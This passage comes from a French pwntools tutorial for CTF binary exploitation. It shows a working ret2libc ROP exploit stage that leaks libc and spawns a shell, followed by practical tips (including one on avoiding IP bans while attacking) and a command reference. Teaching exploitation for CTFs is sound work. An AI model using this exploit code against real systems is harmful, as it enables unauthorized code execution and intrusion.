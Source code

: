 ```python

libc_base = puts_leak - libc.symbols['puts']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

log.info(f"libc base: {hex(libc_base)}")
log.info(f"system: {hex(system)} binsh: {hex(binsh)}")

# Stage 2: get shell
payload2 = flat(
    b'A'*offset,
    p64(pop_rdi),
    p64(binsh),
    p64(system)
)

p.sendline(payload2)
p.interactive()
```

> Notes :
> - En remote CTF il faut souvent remplacer `libc` par la libc fournie par l’organisateur ou déduite via leaks.
> - Ajuster `recv` selon protocole (prompt, newline, etc.).

---

# 11. Bonnes pratiques & pièges fréquents

- Toujours fixer `context.arch` et `context.os` si nécessaire.
- Use `context.log_level = 'debug'` pendant debug — remettre sur `info` pour remote.
- Gérer `p.timeout` et `p.recv(timeout=...)` — éviter blocage.
- Test local → test remote, ne pas assumer la même libc.
- Vérifier little vs big endian ; pack/unpack correctement.
- Toujours vérifier alignement de la stack (x86_64 exigence d'alignement 16).
- Ne pas exposer attaques à IP bans — insert delays ou utiliser rate limits prudents.

---

# 12. Référence rapide de commandes utiles

- `ELF('vuln').symbols`, `.plt`, `.got`, `.data`, `.bss`
- `ROP(exe).dump()`, `.chain()`, `.find_gadget(...)`
- `cyclic(200)`, `cyclic_find(0x6161616c)`
- `p64()`, `u64()`, `flat(...)`
- `process('./vuln')`, `remote(host,port)`, `ssh(...)`
- `gdb.debug([...], gdbscript='...')`, `gdb.attach(proc, gdbscript='...')`
- `args.REMOTE`, `args.GDB` pour contrôle CLI (`python exploit.py REMOTE`)

---
